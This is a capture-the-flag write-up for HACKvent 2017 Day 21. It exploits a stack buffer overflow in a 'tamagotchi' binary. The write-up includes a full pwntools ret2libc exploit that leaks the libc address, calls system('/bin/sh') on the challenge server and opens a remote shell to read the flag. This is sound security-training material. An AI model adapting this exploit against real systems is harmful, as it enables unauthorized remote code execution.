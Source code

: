 # Day 21: Tamagotchi
  
*Ohai fuud or gtfo*

**Ohai**

I'm a little tamagotchi who wants fuuuuud, pls don't giveh me too much or I'll crash...

`nc challenges.hackvent.hacking-lab.com 31337`

[File #1: tamagotchi](files/tamagotchi "tamagotchi") + [File #2: libc-2.26.so](files/libc-2.26.so "libc-2.26.so")

### Solution

"*pls don't giveh me too much or I'll crash...*" - hmm, sounds like buffer overflow vulnerability. 

```bash
$ file tamagotchi libc-2.26.so 
tamagotchi:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc180fb6cf42f3134c8b07c42c35f1efdbd88cc2, not stripped
libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6d2b609f0c8e7b338f767b08c5ac712fac809d31, for GNU/Linux 3.2.0, stripped
```

I followed this very useful tutorial about 64-bit Linux stack smashing: [part 1](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/), [part 2](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/), [part 3](https://blog.techorganic.com/2016/03/18/64-bit-linux-stack-smashing-tutorial-part-3/).

I tried to decompile it in IDA first.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char s; // [rsp+0h] [rbp-4D0h]
  char v5; // [rsp+400h] [rbp-D0h]
  int v6; // [rsp+4C8h] [rbp-8h]
  int v7; // [rsp+4CCh] [rbp-4h]

  v7 = 1;
  v6 = 0;
  show_title(*(_QWORD *)&argc, argv, envp);
  result = show_menu();
  while ( v7 )
  {
    puts("[ch01c3]> ");
    fgets(&s, 1024, _bss_start);
    v6 = atoi(&s);
    if ( v6 == 1 )
    {
      puts("[f00d]> ");
      fgets(&v5, 1024, _bss_start);
      result = puts("[+] nom nom nom ");
    }
    else if ( v6 == 2 )
    {
      result = puts("[+] bye bye");
      v7 = 0;
    }
    else
    {
      result = puts("[-] nope!");
    }
  }
  return result;
}
```

The second `fgets` call looked promising - it reads 1024 bytes into a buffer of length of only 200 bytes. So the next step was to find offset to overflow the buffer and overwrite RIP register using `gdb`. Offset of 216 did the job.

```bash
$ gdb tamagotchi
gdb-peda$ pattern_create 250
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b'
gdb-peda$ r
...
[MENU]
1.) eat
2.) bye
[ch01c3]> 
1
[f00d]> 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b
[+] nom nom nom 
[ch01c3]> 
2
[+] bye bye

Program received signal SIGSEGV, Segmentation fault.
...
RSP: 0x7fffffffe478 ("nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%b\n")
RIP: 0x40079d (<main+211>:	ret)
...
gdb-peda$ x/wx $rsp
0x7fffffffe478:	0x4325416e
gdb-peda$ pattern_offset 0x4325416e
1126515054 found at offset: 216
```

In 64-bit binaries, function parameters are passed in registers. The first six parameters are passed in registers RDI, RSI, RDX, RCX, R8, and R9. So I employed [`ropper`](https://github.com/sashs/ropper) to find a suitable ROP injection point.

```bash
$ ropper --file tamagotchi --search "% ?di"
0x0000000000400695: call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006b9: call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x000000000040069a: mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x00000000004006be: mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400550: mov edi, 0x601048; jmp rax;
0x00000000004006b6: or al, byte ptr [rax]; call 0x4b0; mov edi, 0x400a5b; call 0x4b0; pop rbp; ret;
0x0000000000400692: or dword ptr [rax], eax; call 0x4b0; mov edi, 0x4008b7; call 0x4b0; pop rbp; ret;
0x000000000040054f: pop rbp; mov edi, 0x601048; jmp rax;
0x0000000000400803: pop rdi; ret;
```

The last one at `0x400803` was perfect since the first function parameter needs to be in RDI.

I could take advantage of static analysis of provided copy of `libc.so`, but since ASLR was enabled on the remote server I had to leak remote address of the libc library in memory first.

The high level solution to exploiting this is as follows:
1. Leak the address of a library function in the GOT. In this case I leaked `puts` GOT entry, which gave me `puts` address.
2. Get libc’s base address so we can calculate the address of other library functions. The base address is simply the difference between leaked `puts` address and `puts` offset from provided `libc.so`.
3. A library function’s address can be obtained by adding its offset from `libc.so` to libc’s base address. In this case I got address of `system` function.

```python
from pwn import *
from struct import *

offset     = 216        # offset to overflow to RIP           <-- gdb pattern_create + pattern_offset
pop_ret    = 0x400803   # ROP to inject RDI register          <-- ropper --file tamagotchi --search "% rdi"
main       = 0x4006ca   # address of main to jump back        <-- gdb tamagotchi -ex "p main"
puts_plt   = 0x4004b0   # puts@plt (procedure linkage table)  <-- gdb tamagotchi -ex "p puts"
puts_got   = 0x601018   # puts@got (global offset table)      <-- objdump -R tamagotchi | grep puts
puts_off   = 0x078460   # offset to puts() in libc            <-- readelf -s libc-2.26.so | grep puts
system_off = 0x047dc0   # offset to system() in libc          <-- readelf -s libc-2.26.so | grep system
bin_sh_off = 0x1a3ee0   # offset to "/bin/sh" in libc         <-- objdump -s libc-2.26.so | grep /bin/sh

r = remote("challenges.hackvent.hacking-lab.com", 31337)

# buffer to leak remote puts address
buf_leak = "A" * offset                 # padding to RIP's offset
buf_leak += pack("<Q", pop_ret)         # pop arg into RDI
buf_leak += pack("<Q", puts_got)        # arg: puts@got entry
buf_leak += pack("<Q", puts_plt)        # return to puts
buf_leak += pack("<Q", main)            # return to main

# stage 1: read the remote puts() address
r.recvuntil("[ch01c3]>")
r.sendline("1")                         # choose to eat
r.recvuntil("[f00d]>")
r.sendline(buf_leak)                    # send buffer to leak puts address
r.recvuntil("[ch01c3]>")
r.sendline("2")                         # choose to exit
r.recvuntil("[+] bye bye\n")

# stage 2: calculate remote addresses from known offsets
puts_addr = u64(r.recv(6) + "\x00" * 2) # read remote puts address
libc_base = puts_addr - puts_off        # calculate libc base address
system = libc_base + system_off         # calculate system address
bin_sh = libc_base + bin_sh_off         # calculate "/bin/sh" address

print "[+] libc base at: 0x%08x" % libc_base
print "[+] system() at: 0x%08x" % system
print "[+] /bin/sh at: 0x%08x" % bin_sh
```

It worked like a charm! Now it was time to do the second buffer overflow to get RCE and remote shell access. I used the same ROP injection point to call `system` function with address of `/bin/sh` as its argument and then switched to interactive mode to be able to execute commands.

```python
# buffer to get remote shell
buf_rce = "A" * offset                  # padding to RIP's offset
buf_rce += pack("<Q", pop_ret)          # pop arg into RDI
buf_rce += pack("<Q", bin_sh)           # arg: "/bin/sh"
buf_rce += pack("<Q", system)           # return to system

# stage 3: pwn
r.recvuntil("[ch01c3]>")
r.sendline("1")                         # choose to eat
r.recvuntil("[f00d]>")
r.sendline(buf_rce)                     # send buffer to get remote shell
r.recvuntil("[ch01c3]>")
r.sendline("2")                         # choose to exit
r.recvuntil("[+] bye bye\n")

r.interactive()                         # switch to interactive mode to use shell
```

The complete source code of this remote exploit can be found [here](../../src/main/python/hackvent2017/Day21.py).

Once I got the remote shell it was pretty straightforward.

```bash
$ ls /home
tamagotchi
$ cd /home/tamagotchi
$ ls
flag  tamagotchi
$ cat flag
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```

The result flag:

```
HV17-pwn3d-t4m4g0tch3y-thr0ugh-f00d
```
